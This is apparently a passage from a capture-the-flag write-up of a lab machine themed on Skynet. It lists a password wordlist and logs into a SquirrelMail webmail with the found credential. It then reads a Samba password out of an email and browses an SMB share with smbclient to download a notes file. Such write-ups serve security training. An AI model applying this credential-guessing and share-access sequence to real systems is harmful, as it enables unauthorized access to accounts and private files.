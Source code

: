 ```
roboterminator
pongterminator
manasturcaluterminator
exterminator95
exterminator200
dterminator
djxterminator
dexterminator
determinator
cyborg007haloterminator
avsterminator
alonsoterminator
Walterminator
79terminator6
1996terminator
```

http://10.10.207.32/squirrelmail/src/login.php

credential = `milesdyson:cyborg007haloterminator`

After authentication, we can read mails delivered to milesdyson

There is a password reset mail 
` 	skynet@skynet 	Sep 17, 2019 	  	Samba Password reset`

```
We have changed your smb password after system malfunction.
Password: )s{A&2Z=F^n_E.B`
```

```
smbclient //10.10.207.32/milesdyson -U milesdyson
Password for [WORKGROUP\milesdyson]:
```

```
# smbclient //10.10.207.32/milesdyson -U milesdyson
Password for [WORKGROUP\milesdyson]:
Try "help" to get a list of possible commands.
smb: \> ls
  --SNIP--
  notes                               D        0  Tue Sep --SNIP--

                9204224 blocks of size 1024. 5831472 blocks available
smb: \> cd notes\
smb: \notes\> ls
  --SNIP--
  important.txt                       N      117  Tue Sep --SNIP--

                9204224 blocks of size 1024. 5831472 blocks available
smb: \notes\> get important.txt
getting file \notes\important.txt of size 117 as important.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \notes\>

```
